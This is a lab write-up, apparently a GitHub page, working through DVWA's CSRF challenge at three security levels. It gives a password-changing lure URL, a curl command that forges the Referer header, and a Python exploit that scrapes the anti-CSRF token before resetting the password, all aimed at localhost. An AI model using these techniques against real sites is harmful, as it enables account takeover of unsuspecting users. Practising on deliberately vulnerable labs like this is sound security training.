 # DVWA - CSRF

## Description

**Vulnerability:** CSRF    
**Impact:** CSRF attack change any accounts' passwords.

---

## LOW Security Level
Make a change password request for testing and inspecting the Network I can see the change password request is a GET request with `password_new` and `password_conf` params:
```
http://localhost/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change
```

We can send this URL to trick any users to click on and their accounts' password will be changed.

## MEDIUM Security Level
In this MEDIUM level, it has a check condition before executing code:
```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
// The code
} else {
    // Didn't come from a trusted source
    echo "<pre>That request didn't look correct.</pre>";
}
```
So, we can add a header to this request to change the password (I use a basic `curl` command):
```bash
curl "http://localhost/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change" -H "Referer: http://localhost/DVWA/vulnerabilities/csrf/" -b "security=medium; PHPSESSID=<YOUR_SESSION_ID>"
```
This command will change the password.

## HIGH Security Level
THis HIGH security level is similar to Brute-force HIGH security level. They both add a `CSRF Token` to validate before executing the logic.

You can see here there is a check anti CSRF Token
```php
// Check Anti-CSRF token
checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );

// Generate Anti-CSRF token
generateSessionToken();
```

Also, if you inspect the form in browser you will see a hidden input:
```html
<input type="hidden" name="user_token" value="<RANDOM_USER_TOKEN>">
```

So the workflow is:
1. Make a GET request and take the created CSRF token firstly.
2. Make a GET request like other two levels but we also add a `user_token` param to pass the check.

I have created a exploit Python code:
```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESS_ID>",
    "security": "high"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)
            
            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword(user_token):
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    url = baseUrl + f"?password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

    try:
        res = requests.get(url, cookies=cookies, headers=headers)

        if "Password Changed" in res.text:
            print('Successfully change password')
        else:
            print('Failed to change password')
            print(res.text)
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

user_token = getCSRFToken()
if (user_token):
    changePassword(user_token)
```

## Resources
- https://owasp.org/www-community/attacks/csrf
- https://www.cgisecurity.com/csrf-faq.html
- https://en.wikipedia.org/wiki/Cross-site_request_forgery

